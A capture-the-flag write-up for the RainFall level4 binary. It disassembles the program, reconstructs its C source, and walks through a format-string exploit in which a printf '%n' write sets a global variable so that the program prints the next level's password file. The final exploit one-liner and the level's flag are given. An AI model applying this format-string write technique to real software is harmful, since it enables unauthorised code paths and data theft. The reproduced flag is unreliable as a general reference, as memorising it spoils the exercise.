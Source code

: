 
### notes
```c
0x08049810  m    : global variable m
0x08048444  p    : fn : called in n
0x08048457  n    : fn : called in main
0x080484a7  main : rak 3arf
```

### 0x080484a7 : main() : disassembly
* __`<0> ➜ <+12> : after stack aligement, the main function just call the n function and exit, that's all`__
```c
0x080484a7 <+0>:	push   ebp
0x080484a8 <+1>:	mov    ebp,esp
0x080484aa <+3>:	and    esp,0xfffffff0
0x080484ad <+6>:	call   0x8048457 <n>
0x080484b2 <+11>:	leave  
0x080484b3 <+12>:	ret   
```
### 0x08048457 : n() : disassembly
- notebook: (to convert `hex` to `dec` and assign variable names for better reading)
```c
{
    char *buffer_1[512] = ebp-520
    // 0x218 ... 536
    // 0x208 ... 520
    // 0x200 ... 512
    // 0x1025544 ... 16930116
}
```
* __`<0> ➜ <+12> : push old ebp to stack, push value of old esp into ebp, then allocate 536 bytes for n stack frame`__
```c
0x08048457 <+0>:	push   ebp
0x08048458 <+1>:	mov    ebp,esp
0x0804845a <+3>:	sub    esp,536
```
* __`<+9> ➜ <+35> : fill 511 character from user input to buffer_1 (511 + \0 = 512 )`__
```c
0x08048460 <+9>:	mov    eax,ds:0x8049804 // stdin
0x08048465 <+14>:	mov    DWORD PTR [esp+8],eax
0x08048469 <+18>:	mov    DWORD PTR [esp+4],512
0x08048471 <+26>:	lea    eax,[buffer_1]
0x08048477 <+32>:	mov    DWORD PTR [esp],eax
0x0804847a <+35>:	call   0x8048350 <fgets@plt>
fgets(buffer_1, 512, stdin)
```
* __`<+40> ➜ <+49> : call p function with buffer_1 as argument`__
```c
0x0804847f <+40>:	lea    eax,[buffer_1]
0x08048485 <+46>:	mov    DWORD PTR [esp],eax
0x08048488 <+49>:	call   0x8048444 <p>
p(buffer_1)
```
* __`<+54> ➜ <+64> : compare value of global variable m with 16930116, if equal , go to <n+66>`__
```c
0x0804848d <+54>:	mov    eax,ds:0x8049810(m variable)
0x08048492 <+59>:	cmp    eax,16930116
0x08048497 <+64>:	jne    0x80484a5 <n+78>
if (m != 16930116) { jump to <n+78> (return)}
```
* __`<+66> ➜ <+73> : print .pass content with system`__
```c
0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590 // "/bin/cat /home/user/level5/.pass"
0x080484a0 <+73>:	call   0x8048360 <system@plt>
system("/bin/cat /home/user/level5/.pass")
```
* __`<+78> ➜ <+79> : exit the n function`__
```c
0x080484a5 <+78>:	leave
0x080484a6 <+79>:	ret
return
```
### 0x08048444 : p(arg1) : disassembly
- notebook: (to convert `hex` to `dec` and assign variable names for better reading)
```c
{
    eip = ebp+4
    arg1 = ebp+8

    // 0x18 ... 24
}
```
* __`<0> ➜ <+3> : push old ebp to stack, push value of old esp into ebp, then allocate 24 bytes for p stack frame`__
```c
0x08048444 <+0>:	push   ebp
0x08048445 <+1>:	mov    ebp,esp
0x08048447 <+3>:	sub    esp, 24
```
* __`<6> ➜ <+12> : print the user input in buffer_1 passed from n to p function`__
```c
0x0804844a <+6>:	mov    eax,DWORD PTR [arg1]
0x0804844d <+9>:	mov    DWORD PTR [esp],eax
0x08048450 <+12>:	call   0x8048340 <printf@plt>
printf(arg1)
```
* __`<17> ➜ <+18> : exit p function and continue in n function`__
```c
0x08048455 <+17>:	leave  
0x08048456 <+18>:	ret  
```

### Code Prediction 
```c
int m = 0;

void p(arg1) {
    printf(arg1);
    return;
}

void n() {
    char *buffer_1[512];

    fgets(buffer_1, 512, stdin);

    p(buffer_1);

    if (m == 16930116) {
        system("/bin/cat /home/user/level5/.pass");
    }

    return;
}

int main(int argc(ebp+0x8), char **argv(ebp+12)) {
    n()
    return (0);
    
}

```
### Stack Illustration
[![stack view](./Ressources/level4-stack-diagram.png)](./Ressources/level4-stack-diagram.png)

---
### Process of the Exploit
- what program do ? :
    - there is a global variable m = 0
    - the program takes 511 character from the user input into buffer_1
    - calls printf with that buffer_1
    - make a comparison : if `(m == 16930116) {execute the shell}` else `exit`
                            
- road to goal ? :
    - same as [level3](../level3/readme.md)
    - we will have to fill m with the value _16930116_ using printf format
    - the difference here is that we cant fill it by printing a character 16930116 times , will be block the stdin since the input will be huge
    - we can use the space padding solution __"%[space padding number]d"__
- start debug  :
    - lets find the position of our m address when passed to printf
        ```c
        level4@RainFall:~$ (python -c 'print  "\x08\x04\x98\x10"[::-1] + "%p " * 20') | ./level4
        0xb7ff26b0 0xbffff754 0xb7fd0ff4 (nil) (nil) 0xbffff718 0x804848d  0xbffff510 0x200      0xb7fd1ac0 
        0xb7ff37d0 0x8049810  0x25207025 0x70252070  0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
                    ↑ 
                    here at position : 12
        ```
    - the m address is placed at the 12th position
    lets test filling the m with val: 1337 for example:
        ```c
        (gdb) b *0x08048492
        Breakpoint 7 at 0x8048492
        (gdb) 
        (gdb) run <<< $(python -c 'print "\x08\x04\x98\x10"[::-1] + "%1333d" + "%12$n"')
        The program being debugged has been started already.
        Start it from the beginning? (y or n) y

        Starting program: /home/user/level4/level4 <<< $(python -c 'print "\x08\x04\x98\x10"[::-1] + "%1333d" + "%12$n"')
                                                                                                        -1208015184
        Dump of assembler code for function n:
        0x08048457 <+0>:	push   ebp
        0x08048458 <+1>:	mov    ebp,esp
        0x0804845a <+3>:	sub    esp,0x218
        0x08048460 <+9>:	mov    eax,ds:0x8049804
        0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
        0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
        0x08048471 <+26>:	lea    eax,[ebp-0x208]
        0x08048477 <+32>:	mov    DWORD PTR [esp],eax
        0x0804847a <+35>:	call   0x8048350 <fgets@plt>
        0x0804847f <+40>:	lea    eax,[ebp-0x208]
        0x08048485 <+46>:	mov    DWORD PTR [esp],eax
        0x08048488 <+49>:	call   0x8048444 <p>
        0x0804848d <+54>:	mov    eax,ds:0x8049810
        => 0x08048492 <+59>:	cmp    eax,0x1025544
        0x08048497 <+64>:	jne    0x80484a5 <n+78>
        0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
        0x080484a0 <+73>:	call   0x8048360 <system@plt>
        0x080484a5 <+78>:	leave  
        0x080484a6 <+79>:	ret    
        End of assembler dump.

        Breakpoint 5, 0x08048492 in n ()
        (gdb) i r
        eax            0x539	1337  <======= HERE is the new value of M variable
        ecx            0x0	0
        edx            0x0	0
        ebx            0xb7fd0ff4	-1208152076
        esp            0xbffff500	0xbffff500
        ebp            0xbffff718	0xbffff718
        esi            0x0	0
        edi            0x0	0
        eip            0x8048492	0x8048492 <n+59>
        eflags         0x200286	[ PF SF IF ID ]
        cs             0x73	115
        ss             0x7b	123
        ds             0x7b	123
        es             0x7b	123
        fs             0x0	0
        gs             0x33	51
        (gdb) 

        ```
    - good , now lets just instead of 1337 we try with 16930116
        __`(python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112x" + "%12$n"'; cat - ) | ./level4`__

---
### Solution :

```shell
level4@RainFall:~$ (python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112d" + "%12$n"') | ./level4 


[...]


                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
level4@RainFall:~$ 
```

__flag : `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`__


